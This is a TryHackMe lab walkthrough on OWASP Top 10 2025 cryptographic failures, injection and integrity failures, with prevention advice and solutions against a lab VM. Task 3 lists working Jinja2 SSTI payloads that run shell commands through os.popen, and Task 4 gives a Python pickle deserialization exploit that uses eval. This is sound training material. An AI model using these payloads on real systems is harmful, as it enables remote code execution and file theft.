




# OWASP Top 10 2025: Insecure Data Handling

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Walkthrough
Difficulty: Easy
Tags: -
Subscription type: Free
Description:
Learn about A04, A05, and A08 as they related to insecure data handling.
```

Room link: [https://tryhackme.com/room/owasptopten2025three](https://tryhackme.com/room/owasptopten2025three)

## Solution

### Task 1: Introduction

This room will introduce you to 3 elements of the OWASP Top 10 list (2025). In this room, you will learn about the elements relating to application behaviour and user input. We will cover these vulnerabilities briefly, how to prevent them, and finally, you will practice exploiting these vulnerabilities:

- A04: Cryptographic Failures
- A05: Injection
- A08: Software or Data Integrity Failures

#### Deploy Practical

Before we begin, please deploy the practical VM by clicking the green "**Start Machine**" button at the start of this task. Please note that you will need to use either the TryHackMe AttackBox or your own hacking machine connected to the TryHackMe VPN to access each practical.

### Task 2: A04: Cryptographic Failures

Cryptographic failiures makes yet another appearence on this OWASP Top 10 list. Let's explore what this exactly and some mitigation steps below.

#### What are Cryptographic Failures?

Cryptographic failures happen when sensitive data isn't adequately protected due to lack of encryption, faulty implementation, or insufficient security measures. This includes storing passwords without hashing, using outdated or weak algorithms (such as MD5, SHA1, or DES), exposing encryption keys, or failing to secure data during transmission.

An incredible example of this is an application or service "rolling their own cryptography", rather than using well-established, vetted, and verifiably secure encryption algorithms.

#### How to Prevent Cryptographic Failures

Preventing cryptographic failures starts with choosing strong, modern algorithms and implementing them properly. Sensitive information such as passwords should be hashed using robust, slow hashing functions like bcrypt, scrypt, or Argon2. When encrypting data, avoid creating your own algorithms; instead, rely on trusted, industry-standard libraries.

Never embed access credentials (i.e., to a third-party service) in source code, configuration files, or repositories. Instead, use secure key management systems or environments specifically designed for storing secrets.

#### Practical

The practical for this task is located at `http://10.64.159.37:8001`. This web app demonstrates a "note sharing" service that uses a weak, shared derivative key to protect the notes.

Follow the steps on the web application to unlock all notes and retrieve a flag.

#### Recommended TryHackMe Content

If you'd like to explore this type of attack in much further depth, we highly recommend the following TryHackMe content:

- [Cryptographic Failures](https://tryhackme.com/module/cryptofailures) Module

---------------------------------------------------------------------------------------

#### Decrypt the encrypted notes. One of them will contain a flag value. What is it?

Browsing to `http://10.64.159.37:8001` we find a crypto lab web page:



We are looking for a 4-byte XOR-key with the first letters of `KEY`.

The key is likely something meaningful som let's try `KEY1` which turns out to be the correct key.

Input it and press `Decrypt All Notes` to get the flag.

Answer: `THM{<REDACTED>}`

### Task 3: A05: Injection

Injection has been a long-standing feature on the OWASP Top 10 list, and it is no surprise. Injection remains a classic example of web exploitation.

#### What is Injection?

Injection occurs when an application takes user input and mishandles it. Instead of processing the input securely, the application passes it directly into a system that can execute commands or queries, such as a database, a shell, a templating engine or API.

You are likely familiar with SQL Injection, where an attacker inserts an SQL query into an application's logic, such as a login form, which then gets processed by the database. This happens when the web application fails to sanitise user input and instead uses it to construct the query. For instance, taking the "username" input on a login form and directly using it to query the database.

The following are some classic examples of injection that you may be familiar with:

- SQL Injection
- Command Injection
- AI Prompts
- Server Side Template Injection (SSTI)

Unfortunately, even in 2025, these types of attacks remain relevant, as evidenced by the inclusion of injection on the OWASP top ten list, not just once in 2021, but twice by 2025. Injection is of high severity and should be treated accordingly.

#### How to Prevent Injection

Preventing injection starts by ensuring that user input is always treated as untrusted. Rather than parsing directly, instead, take elements of the input for querying. For SQL queries, this means using prepared statements and parameterised queries instead of building queries through string concatenation. For OS commands, avoid functions that pass input directly to the system shell, and instead rely on safe APIs and processes that don’t invoke the shell at all.

Input validation and sanitisation play a crucial role in preventing these types of attack. Escape dangerous characters, enforce strict data types and filter before the application even processes the input.

Practical

Today's practical will showcase command injection. This example illustrates Server Side Template Injection (SSTI). You will abuse an application's ability to render dynamic content to retrieve a flag stored on the machine hosting the application.

You can access this portion of the practical on `http://10.64.159.37:8000`.

#### Recommended TryHackMe Content

If you'd like to explore this type of attack in much further depth, we highly recommend the following TryHackMe content:

- [Injection Attacks](https://tryhackme.com/module/injection-attacks) Module
- [Command Injection](https://tryhackme.com/room/oscommandinjection) Room

---------------------------------------------------------------------------------------

#### What's the flag?

Manually browsing to `http://10.64.159.37:8000` shows an `Injection Showcase` web page



From the instructions we know that the application is vulnerable to SSTI and Jinja2 is used.

If we try the template `{{config.items()}}` we get the following result

```text
dict_items([('DEBUG', True), ('TESTING', False), ('PROPAGATE_EXCEPTIONS', None), ('SECRET_KEY', None), ('PERMANENT_SESSION_LIFETIME', datetime.timedelta(days=31)), ('USE_X_SENDFILE', False), ('SERVER_NAME', None), ('APPLICATION_ROOT', '/'), ('SESSION_COOKIE_NAME', 'session'), ('SESSION_COOKIE_DOMAIN', None), ('SESSION_COOKIE_PATH', None), ('SESSION_COOKIE_HTTPONLY', True), ('SESSION_COOKIE_SECURE', False), ('SESSION_COOKIE_SAMESITE', None), ('SESSION_REFRESH_EACH_REQUEST', True), ('MAX_CONTENT_LENGTH', None), ('SEND_FILE_MAX_AGE_DEFAULT', None), ('TRAP_BAD_REQUEST_ERRORS', None), ('TRAP_HTTP_EXCEPTIONS', False), ('EXPLAIN_TEMPLATE_LOADING', False), ('PREFERRED_URL_SCHEME', 'http'), ('TEMPLATES_AUTO_RELOAD', None), ('MAX_COOKIE_SIZE', 4093)]) 
```

so SSTI is confirmed.

There is also the hint `Look for builtins like config, request, cycler, joiner, lipsum.`

Searching for Jinja2-related SSTI-payloads we find the following to choose from:

- `{{ config.__class__.__init__.__globals__['os'].popen('cat flag.txt').read() }}`
- `{{ lipsum.__globals__['os'].popen('cat flag.txt').read() }}`
- `{{ request.application.__globals__.__builtins__.open('flag.txt').read() }}`
- `{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('cat flag.txt').read() }}`

All these results in the flag.

Answer: `THM{<REDACTED>}`

### Task 4: A08: Software or Data Integrity Failures

Again, Software or Data Integrity failures have been a long-standing feature on the OWASP Top 10 list, featuring twice over the last two releases. Let's explore this a bit further below.

#### What Are Software or Data Integrity Failures?

Software or Data Integrity Failures occur when an application relies on code, updates, or data it assumes are safe, without verifying their authenticity, integrity, or origin. This includes trusting software updates without verification, loading scripts or configuration files from untrusted sources, failing to validate data that impacts application logic, or accepting data such as binaries, templates, or JSON files without confirming whether it has been altered.

#### How to Avoid Software & Data Integrity Failures

Preventing these failures begins with establishing trust boundaries. Applications should never assume that code, updates, or key pieces of data are legitimate and automatically trusted; their integrity must be verified. This involves using methods such as cryptographic checks (like checksums) for update packages and ensuring that only trusted sources can modify critical artefacts.

Additionally, for applications, integrity and trust boundaries should also be within build processes such as CI/CD.

#### Practical

This practical will demonstrate a deserialization attack in Python. You can access this practical on `http://10.64.159.37:8002`.

Follow the steps in the practical to generate and provide some malicious input to the web application.

#### Recommended TryHackMe Content

If you'd like to explore this type of attack in much further depth, we highly recommend the following TryHackMe content:

- [Insecure Deserialisation](https://tryhackme.com/room/insecuredeserialisation) Room
- [Supply Chain Attack: Lottie](https://tryhackme.com/room/supplychainattacks) Room

---------------------------------------------------------------------------------------

Use Python to pickle a malicious, serialised payload that reads the contents of `flag.txt` and submits it to the application.

#### What are the contents of flag.txt?

Manually browsing to `http://10.64.159.37:8002` results in an `Integrity Lab` web page



As stated, the pickle module is not secure and can lead to code execution.  
From the pickle module documentation:



We need to create a pickled class-object (Base64-encoded) that will give us the flag

```python
#!/usr/bin/env python

import base64, pickle

class Malicious:
    def __reduce__(self):
        return (eval, ("open('flag.txt').read()",))

# Generate and encode the payload
payload = pickle.dumps(Malicious())
encoded = base64.b64encode(payload).decode()
print(encoded)
```

Running this script gives us a Base64-encoded string to input on the web page

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Walkthroughs/Easy/OWASP_Top_10_2025-Insecure_Data_Handling]
└─$ ./pickle_1.py 
gASVMwAAAAAAAACMCGJ1aWx0aW5zlIwEZXZhbJSTlIwXb3BlbignZmxhZy50eHQnKS5yZWFkKCmUhZRSlC4=
```

This will give us the flag.

Answer: `THM{<REDACTED>}`

For additional information, please see the references below.

## References

- [A04:2025 - Cryptographic Failures - OWASP Top 10](https://owasp.org/Top10/2025/A04_2025-Cryptographic_Failures/)
- [A05:2025 - Injection - OWASP Top 10](https://owasp.org/Top10/2025/A05_2025-Injection/)
- [A08:2025 - Software or Data Integrity Failures - OWASP Top 10](https://owasp.org/Top10/2025/A08_2025-Software_or_Data_Integrity_Failures/)
- [Insecure deserialization - PortSwigger](https://portswigger.net/web-security/deserialization)
- [Jinja (template engine) - Wikipedia](https://en.wikipedia.org/wiki/Jinja_(template_engine))
- [pickle module - Python](https://docs.python.org/3/library/pickle.html)
- [Python (programming language) - Wikipedia](https://en.wikipedia.org/wiki/Python_(programming_language))
- [OWASP Top 10:2025 - OWASP](https://owasp.org/Top10/2025/)
- [Server-side template injection - PortSwigger](https://portswigger.net/web-security/server-side-template-injection)
- [XOR cipher - Wikipedia](https://en.wikipedia.org/wiki/XOR_cipher)
